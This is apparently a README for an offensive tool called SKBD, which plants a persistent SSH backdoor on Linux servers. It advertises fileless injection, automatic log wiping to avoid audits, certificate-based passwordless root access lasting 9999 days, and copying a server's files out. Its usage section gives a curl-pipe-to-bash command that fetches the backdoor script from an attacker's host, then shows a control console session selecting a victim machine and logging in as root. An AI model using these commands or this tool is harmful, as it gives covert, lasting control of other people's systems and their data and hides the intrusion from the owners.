




# SKBD (Scorpion-Killer)


**Linux-SSH Backdoor Injection Persistence Control Tool**

1. **Fileless Automated Backdoor Injection**  
   Using a `curl` request, this tool automatically performs the backdoor injection without leaving any significant traces on the system.

2. **Automatic Log and Trace Removal**  
   During the backdoor injection process, the tool automatically clears related logs and traces, ensuring no alerts are triggered during monitoring and auditing.

3. **CA Certificate Bypass**  
   By utilizing the CA certificate mechanism, this tool can bypass SSH server certificate validation checks, further enhancing stealth and persistence.

4. **27-Year SSH Backdoor**  
   The injected SSH backdoor can last for up to 27 years (9999 days), ensuring long-term access and control over the system.

5. **Multiple Passwordless Users for SSH Access**  
   Supports multiple SSH users who can log in independently without passwords, providing increased flexibility and stealth.

6. **Portability and Data Migration**  
   The tool allows you to package all the server’s machine files and send them to another user. This enables seamless migration, allowing for control to be deployed across different systems.

---

# Usage

**PS: This script must be executed with ROOT privileges.**

## skbd.py : Server (API)

`$ python3 skbd.py -h`



## skbdexec.py : Server (Command Execution)

`$ python3 skbdexec.py`



## skbd.sh : Client (Load skbd backdoor)

`$ ./skbd.sh`



---

# Examples:

1. Start a malicious HTTP server

`$ python3 -m http.server 8181`



2. Start the server (API):

`$ python3 skbd.py`


> endpoint: https://192.168.0.115:9191

3. Start the server (Command execution):  
   **PS**: `skbdexec.py` can be started at any time.

`$ python3 skbdexec.py`


4. Inject the skbd backdoor into the client

`$ curl http://<IP>:<PORT>/skbd.sh|bash -s -- -e 'https://<IP>:PORT' `


5. Access the client's shell from the server (Command execution):

`SKBD # info`


`SKBD # use 1`

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# show`


```
+-------------------------------------------+-------------------------------------------+
| Configuring Machine: f6b50eecbeca4b61a7e8932c3e9cf9f2    |
+-------------------------------------------+-------------------------------------------+
| Parameter          | Value                            |
+-------------------------------------------+-------------------------------------------+
| users              | root,postgres,map                 | (Editable) |
| ips                | 192.168.0.111,                    | (Editable) |
| sn                 | f6b50eecbeca4b61a7e8932c3e9cf9f2  | (Editable) |
+-------------------------------------------+-------------------------------------------+
```

This list displays the users (`root,postgres,map`) available for SSH login on the client. You can change the logged-in user session by using the command `set user map`.

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# set user root`

Final login parameters:

```SH
+-------------------+-------------------+
| user: root        |
| ip: 192.168.0.111 |
| port: 22          |
+-------------------+-------------------+
```

`SKBD[f6b50eecbeca4b61a7e8932c3e9cf9f2]# run`

